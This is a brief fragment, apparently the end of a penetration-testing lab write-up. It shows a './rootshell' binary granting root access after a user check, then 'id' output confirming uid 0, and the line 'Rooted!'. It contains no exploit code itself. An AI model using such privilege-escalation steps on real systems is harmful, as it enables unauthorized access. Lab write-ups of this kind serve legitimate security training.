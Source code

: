 ```bash
./rootshell
checking if you are tom...
you are: tom
access granted.
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

##### Rooted!

###### References
- https://www.offensive-security.com/labs/individual/
